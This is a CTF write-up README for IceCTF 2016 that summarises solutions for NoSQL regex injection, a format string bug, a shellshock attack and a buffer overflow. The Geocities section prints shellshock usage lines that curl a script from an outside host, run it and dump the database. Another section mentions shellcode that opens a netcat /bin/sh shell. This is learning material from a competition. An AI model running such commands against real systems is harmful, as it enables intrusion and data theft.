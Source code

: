 # IceCTF-2016-WriteUp
My solutions to some of the challenges in IceCTF 2016. I should mention that this was my first CTF evah...

## A Strong Feeling

The solution I implemented was based on bruteforcing the string character by character. A better solution would have been to script some automatic tool to find the correct input. Whatever.

## Chained In

This was a NoSQL Injection (is this name a thing?). The script does, once again, a bruteforce attack of the admin password (AKA the flag) in a character by character fashion. This is done by using a regex using the `$regex` operator of MongoDB.

## Dear Diary

String format vulnerability. Just pipe the output of the script into the CTF executable and you can see the flag (among other random stuff from memory).

Script: `dear_shit.py`

## Geocities

I exploited shellshock on `index.cgi` to download the simple DB dumper I wrote. Then I executed it and got the flag from the DB.

Usage:
```
geocities_shellshock.sh "curl http://blabla/dumper.pl > /tmp/fuck.pl"
geocities_shellshock.sh "chmod +x /tmp/fuck.pl"
geocities_shellshock.sh "/tmp/fuck.pl \"SHOW TABLES;\""
geocities_shellshock.sh "/tmp/fuck.pl \"SELECT * FROM 47a6fd2ca39d2b0d6eea1c30008dd889;\""
```

It was fun to see that a some people actually went beyond the scope of the CTF and left some "I was here" notes inside the source code of the website.

## So Close

**EDIT:** Apparently I missed that the ELF is non-PIE so I totally overcomplicated things :)

This was a buffer overflow in which we couldn't overwrite the return address of the function, so things got a bit more complicated. Since I'm a n00b and I didn't know any better, I ended up using a ROP gadget from libc in order to bypass ASLR (`call ecx`) and then tried to run the shellcode many times until I succeeded (kinda like... bruteforcing). If you solved it in a sane way please drop me a line.

I rewrote the script I used in order to make it totally automatic... it is now too verbose but I think it's pretty clear what it does:

1. Overwrite a single byte of the value that `ebp` is gonna take at the end of the vulnerable function
2. Put the shellcode in the buffer
3. Fill the rest of the buffer with the address of my `call ecx` gadget
4. Wait for the magic to happen (AKA getting `libc`'s address right)
5. ...
6. PROFIT!

My shellcode lanched the shellscript `./bb` which in turn runs netcat and `/bin/sh`. It is created by the python exploit at runtime.

# Conclusion

The CTF was fun even though I didn't have much time to commit to it. Feel free to ask me any question or point me to better solutions if you want :)
